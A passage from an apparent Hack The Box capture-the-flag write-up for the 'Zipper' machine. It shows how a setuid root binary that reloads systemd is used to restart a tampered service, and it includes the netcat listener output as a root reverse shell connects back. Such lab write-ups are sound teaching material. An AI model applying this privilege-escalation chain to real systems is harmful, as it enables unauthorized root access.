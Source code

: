 However systemd has not been reloaded to read the updated service file, so it will continue to run the old script until it's been reloaded. This usually require root privileges.

In Zapper's home directory is a utils folder with a setuid binary.

```
zapper@zipper:~/utils$ ls -al
total 20
drwxrwxr-x 2 zapper zapper 4096 Sep  8 13:27 .
drwxr-xr-x 6 zapper zapper 4096 Feb 26 11:08 ..
-rwxr-xr-x 1 zapper zapper  194 Sep  8 13:12 backup.sh
-rwsr-sr-x 1 root   root   7556 Sep  8 13:05 zabbix-service
```

Running the binary seems to allow starting and stopping of the service.

```
zapper@zipper:~/utils$ ./zabbix-service 
start or stop?:
```

Running strings on the binary we can see it reloading systemd with `systemctl daemon-reload`.

```
zapper@zipper:~/utils$ strings zabbix-service
~
~
start or stop?: 
start
systemctl daemon-reload && systemctl start zabbix-agent
stop
systemctl stop zabbix-agent
~
~
```

We can now run `zabbix-service`, stop then start it, and catch our shell.

```
zapper@zipper:~/utils$ ./zabbix-service stop
zapper@zipper:~/utils$ ./zabbix-service start
```

```
root@kali:~/htb# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.108] 51242
id
uid=0(root) gid=0(root) groups=0(root)
hostname
zipper
```
